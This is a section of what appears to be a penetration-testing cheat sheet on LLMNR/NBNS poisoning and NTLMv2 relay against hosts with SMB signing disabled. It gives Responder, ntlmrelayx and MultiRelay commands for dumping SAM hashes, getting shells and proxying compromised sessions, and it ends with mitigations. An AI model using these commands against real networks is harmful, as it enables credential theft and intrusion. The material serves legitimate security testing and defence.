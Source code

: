 
## SMB Signing Disabled and IPv4

If a machine has `SMB signing`:`disabled`, it is possible to use Responder with Multirelay.py script to perform an `NTLMv2 hashes relay` and get a shell access on the machine. Also called **LLMNR/NBNS Poisoning**

1. Open the Responder.conf file and set the value of `SMB` and `HTTP` to `Off`.
    ```powershell
    [Responder Core]
    ; Servers to start
    ...
    SMB = Off     # Turn this off
    HTTP = Off    # Turn this off
    ```
2. Run `python  RunFinger.py -i IP_Range` to detect machine with `SMB signing`:`disabled`.
3. Run `python Responder.py -I <interface_card>` 
4. Use a relay tool such as `ntlmrelayx` or `MultiRelay`
    - `impacket-ntlmrelayx -tf targets.txt` to dump the SAM database of the targets in the list. 
    - `python MultiRelay.py -t <target_machine_IP> -u ALL`
5. ntlmrelayx can also act as a SOCK proxy with every compromised sessions.
    ```powershell
    $ impacket-ntlmrelayx -tf /tmp/targets.txt -socks -smb2support
    [*] Servers started, waiting for connections
    Type help for list of commands
    ntlmrelayx> socks
    Protocol  Target          Username                  Port
    --------  --------------  ------------------------  ----
    MSSQL     192.168.48.230  VULNERABLE/ADMINISTRATOR  1433
    SMB       192.168.48.230  CONTOSO/NORMALUSER1       445
    MSSQL     192.168.48.230  CONTOSO/NORMALUSER1       1433

    # You might need to select a target with "-t"
    # smb://, mssql://, http://, https://, imap://, imaps://, ldap://, ldaps:// and smtp://
    impacket-ntlmrelayx -t mssql://10.10.10.10 -socks -smb2support
    impacket-ntlmrelayx -t smb://10.10.10.10 -socks -smb2support

    # the socks proxy can then be used with your Impacket tools or netexec
    $ proxychains impacket-smbclient //192.168.48.230/Users -U contoso/normaluser1
    $ proxychains impacket-mssqlclient DOMAIN/USER@10.10.10.10 -windows-auth
    $ proxychains netexec mssql 10.10.10.10 -u user -p '' -d DOMAIN -q "SELECT 1"   
    ```

**Mitigations**:

 * Disable LLMNR via group policy
    ```powershell
    Open gpedit.msc and navigate to Computer Configuration > Administrative Templates > Network > DNS Client > Turn off multicast name resolution and set to Enabled
    ```
 * Disable NBT-NS
    ```powershell
    This can be achieved by navigating through the GUI to Network card > Properties > IPv4 > Advanced > WINS and then under "NetBIOS setting" select Disable NetBIOS over TCP/IP
    ```
